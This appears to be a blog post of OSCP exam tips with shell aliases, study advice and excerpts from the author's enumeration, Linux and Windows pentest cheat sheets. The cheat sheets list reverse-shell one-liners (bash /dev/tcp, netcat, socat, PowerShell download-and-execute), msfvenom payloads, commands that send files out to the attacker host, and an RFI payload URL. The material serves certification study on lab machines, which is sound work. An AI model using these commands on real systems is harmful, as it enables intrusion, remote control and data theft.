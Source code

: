 # Four OSCP Tips

I completed all five OSCP exam machines in 9.5 hours and I did not use Metasploit. Here are four tips that will help you to pass your OSCP exam:

## 1. Tame your terminal

Export variables and set aliases in `~/.bashrc` for commands that you will frequently. I recommend the following: 
* Store your OSCP lab and exam content on your host machine and share it with your PWK virtual machine using VMWare's shared folders feature. Use the following alias to conveniently mount the shared drives inside of the virtual machine: 
	```
	alias "mount-shared-folders=
	vmware-hgfsclient | while read folder; do
		echo \"[i] Mounting ${folder} (/mnt/hgfs/${folder})\";
		mkdir -p \"/mnt/hgfs/${folder}\";
		umount -f \"/mnt/hgfs/${folder}\" 2>/dev/null;
		vmhgfs-fuse -o allow_other -o auto_unmount \".host:/${folder}\" \"/mnt/hgfs/${folder}\";
	done"
	```	
* You will frequently use tools that will require you to type out the target machine's IP address and/or your VPN IP address. Export these values to variables to save time and prevent typos:
	```
	export targ=x.x.x.x
	export tun0=$(/sbin/ip -o -4 addr list tun0 | awk '{print $4}' | cut -d/ -f1)
	```
	After you've finished a machine and changed the `targ` variable, use `source` to reload `.bashrc` for the current session:
	```
	source ~/.bashrc
	```
	Example: use these variables to exploit an RFI vulnerability (the unicorns of web application hacking):
	```
	curl "http://$targ/vuln_page.php?file=http://$tun0:8888/payload.php"
	```
		
* Not OSCP-specific but you can use `xclip` and an alias to copy and paste while keeping both hands on the keyboard:
	```
	alias "c=xclip -selection clipboard"
	alias "v=xclip -o -selection clipboard"
	```
	Example: use this alias to review a `searchsploit` result:
	```
	locate windows/remote/1.c | c ; less `v`
	```
* You will frequently use a webserver to transfer files to a target machine. Create a shared folder for these files and make an alias to spin up the webserver:
	```
	alias "webserver=
		webserver_dir=/home/user/www;
		ls -laR $webserver_dir;
		python3 -m http.server 8888 --directory $webserver_dir --bind $tun0"
	```
## 2. Connect with the OSCP community
There are a handful of Discord servers with OSCP text channels and one of them is InfoSec Prep which has ~17,000 members as of 1/1/2020: https://discord.gg/mS5tzTuyR2.

## 3. Study for the *exam*
While completing the PWK exercises and labs you will learn essential offensive security concepts like post-exploitation and lateral movement which will not be tested during the OSCP exam. Additionally, in 2020 Offensive Security updated the course (https://www.offensive-security.com/offsec/pwk-2020-update/) to incude a lot of new content including Active Directory and Powershell Empire modules which will also not be tested during the OSCP exam according to the update announcement: "At this time, the OSCP exam, proctoring, and certification procedures will remain the same." You could ignore these essential concepts (at a detriment to your professional development) if your only goal is to pass the OSCP exam. 

## 4. Make your own cheat sheets
Every J. Random Hacker has published an OSCP cheat sheet:

![Google cheat sheet result count](google_cheat_sheet_count.png)

and their work is helpful to you but not nearly as helpful as creating your own. I recommend that you create at least 3 documents as you progress through the PWK exercises and lab machines. The following are snippets from the three cheat sheets that I created:

	1. An enumeration cheat sheet:
```
PORT SCAN
=========
sudo nmap -v -Pn -A $targ -oN nmap_default-ports ;\
sudo nmap -v -Pn -sV --script vuln $targ -oN nmap_vulns ;\
sudo nmap -v -Pn -p- $targ -oN nmap_all-ports

SERVICE ENUMERATION
===================
21 FTP
22 SSH
	* OpenSSH <= 7.7 has username enumeration vulnerability
		* python sshUsernameEnumExploit.py --userList /usr/share/wordlists/metasploit/unix_users.txt $targ
			* source: https://github.com/BlackDiverX/ssh-user-enumeration
		* python 45939.py $targ root
	* server only accepts legacy algorithms?  "no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1 ...""
		* connect using legacy algorithm: ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 $user@$targ 
25 SMTP
	* run SMTP nmap scripts: nmap -p 25 --script=smtp-* $targ
	* enumerate local linux users: smtp-user-enum.pl -M VRFY/EXPN/RCPT -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $targ	
	* shellshock RCE vulnerability exists for postfix smtp server w/procmail
		* PoC: https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
...
```

	2. A Linux cheat sheet with shells, file transfer methods, and privilege escalation methods:

```
SHELLS
======
* bash -i >& /dev/tcp/$tun0/4444 0>&1
* msfvenom -p linux/x86/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell86.elf
* msfvenom -p linux/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell.elf
* nc -e /bin/bash $tun0 4444
* nc -c /bin/bash $tun0 4444
* socat tcp:$tun0:4444 exec:"bash -i",pty,stderr,setsid,sigint,sane
	* socat -,raw,echo=0 tcp-listen:4444 //to catch the shell
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $tun0 4444 >/tmp/f
	* netcat shell for nc without -e or -c
	* sourced from: https://ostrokonskiy.com/posts/linux-privilege-escalation-cheatsheet.html
...

DOWNLOAD FILES TO TARGET
========================
* scp $file $user@$targ:~/$file
* curl http://$tun0:8888/$file -o /tmp/$file
* wget http://$tun0:8888/$file -O /tmp/$file
* axel http://$tun0:8888/$file -o /tmp/$file
...

CRONJOBS
========
* use pspy to view short-lived processes
* check cron log file for cronjobs in execution
	grep "CRON" /var/log/syslog*
* list all /etc/cron files
	ls -lhra /etc/cron*
* check /etc/crontab- sometimes sysadmins put tasks
* users can create cronjobs with crontab -e
	* without adequate permissions we cannot view other users' crontabs
	* crontabs are stored in /var/spool/cron/crontabs/$user
...
```

	3. A Windows cheat sheet with shells, file transfer methods, and privilege escalation methods:
	
```
SHELLS
======
* msfvenom -p windows/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged64.exe
* msfvenom -p windows/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged86.exe
* nc.exe $tun0 4444 -e cmd.exe
* powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://$tun0:8888/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress $tun0 -Port 4444"
* powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$tun0:8888/powercat.ps1'); powercat -l -p 4444 -e cmd"
...

UPLOAD FILES TO ATTACKER
========================
* nc -nvlp 6666 > $file
	* to receive
* nc.exe $tun0 6666 -w 3 < $file.out
* Get-Content $file.out | ./nc64.exe -w 3 $tun0 6666
	* useful for cases without '<'
* cmd /c 'C:\Users\$user\Documents\nc64.exe -w 3 $tun0 6666 < $file'
* sudo impacket-smbserver smb_share $directory
	* copy $file.out \\$tun0\smb_share\
...

GENERAL PRIV ESC
================
* whoami /all
	* look for: SeImpersonate, SeAssignPrimary, SeTcb, SeBackup, SeRestore, SeCreateToken, SeLoadDriver, SeTakeOwnership, or SeDebug
		* source: https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
* net localgroup Administrators
	* shows who is inside Administrators group
* dir /b /s *.ext
	* search for files with file extension
* dir /r
	* view alternate data streams
* type C:\Users\$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	* review user's powershell history
...
```
Good luck!